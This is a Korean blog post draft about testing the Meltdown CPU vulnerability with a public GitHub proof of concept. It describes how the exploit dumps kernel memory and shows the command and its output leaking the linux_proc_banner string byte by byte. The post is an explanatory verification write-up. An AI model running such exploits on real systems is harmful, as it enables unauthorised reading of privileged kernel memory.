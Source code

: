 ```yaml
---
title:  "Meltdown/Spectre 취약점 확인"
date:   2018-01-09 14:29:00 +0900
tags: [blog, meltdown, spectre, security]
layout: post
comments: yes
author: cwyang
published: false
---
```

신년 벽두를 강타하고 있는 [Meltdown/Spectre 취약점](https://meltdownattack.com/)을 직접 확인해보았다.

보안 전공이 아닌 입장에서, [논문만을 보고](https://meltdownattack.com/meltdown.pdf) 그것을 재현하기란 쉽지 않다.
그러나 시대가 시대이니만큼 github에는 이미 meltdown exploit poc 소스들이 많이 있다. 그 중 다음 소스를 가지고
작업 서버에서 테스트 를해 보기로 했다.

https://github.com/paboldin/meltdown-exploit

소스는 크게 두 부분으로 이루어져 있다

- meltdown.c: 커널주소와 길이를 받아 해당 커널주소부터 길이만큼의 메모리를 덤프하는 meltdown 공격.
- run.sh: meltdown공격을 쉽게 보여주기 위해서, 커널에 들어가 있는 `linux_proc_banner' 스트링의 주소를 찾은 후, 그 주소를 meltdown 바이너리에 넘겨주는 스크립트

meltdown.c는 `/proc/version'을 읽어들이는데, 이 경우 커널 심볼인 `linux_proc_banner'의 내용이 캐시에 로드된다. 

~~~~
 meltdown-exploit $ ./meltdown ffffffff924000a0 40
 cached = 34, uncached = 322, threshold 104
 read ffffffff924000a0 = 25 % (score=421/1000)
 read ffffffff924000a1 = 73 s (score=512/1000)
 read ffffffff924000a2 = 20   (score=540/1000)
 read ffffffff924000a3 = 76 v (score=494/1000)
 read ffffffff924000a4 = 65 e (score=120/1000)
 read ffffffff924000a5 = 72 r (score=394/1000)
 read ffffffff924000a6 = 73 s (score=344/1000)
 read ffffffff924000a7 = 69 i (score=416/1000)
 read ffffffff924000a8 = 6f o (score=469/1000)
 read ffffffff924000a9 = 6e n (score=481/1000)
 read ffffffff924000aa = 20   (score=425/1000)
 read ffffffff924000ab = 25 % (score=467/1000)
 read ffffffff924000ac = 73 s (score=428/1000)
 ...
~~~~
